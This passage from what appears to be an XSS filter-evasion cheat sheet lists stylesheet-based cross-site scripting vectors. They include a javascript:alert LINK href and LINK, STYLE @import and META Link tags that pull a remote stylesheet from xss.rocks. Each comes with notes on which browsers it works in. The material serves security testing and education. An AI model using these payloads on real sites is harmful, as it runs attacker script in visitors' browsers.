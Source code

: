 ## STYLE sheet

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

## Remote style sheet

(using something as simple as a remote style sheet you can include your
XSS as the style parameter can be redefined using an embedded
expression.) This only works in IE and Netscape 8.1+ in IE rendering
engine mode. Notice that there is nothing on the page to show that there
is included JavaScript. Note: With all of these remote style sheet
examples they use the body tag, so it won't work unless there is some
content on the page other than the vector itself, so you'll need to add
a single letter to the page to make it work if it's an otherwise blank
page:

    `<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">`

## Remote style sheet part 2

This works the same as above, but uses a

    <STYLE>

tag instead of a <LINK> tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end

    </STYLE>

tag if there is HTML immediately after the vector to close it. This is
useful if you cannot have either an equals sign or a slash in your cross
site scripting attack, which has come up at least once in the real
world:

    `<STYLE>@import'http://xss.rocks/xss.css';</STYLE>`

## Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky.
According to RFC2616 setting a link header is not part of the HTTP1.1
spec, however some browsers still allow it (like Firefox and Opera). The
trick here is that I am setting a header (which is basically no
different than in the HTTP header saying Link:
\<http://xss.rocks/xss.css\>; REL=stylesheet) and the remote style sheet
with my cross site scripting vector is running the JavaScript, which is
not supported in FireFox:

    `<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">`

## Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL
file to the parent page. I think the irony here is that Netscape assumes
that Gecko is safer and therefor is vulnerable to this for the vast
majority of sites:
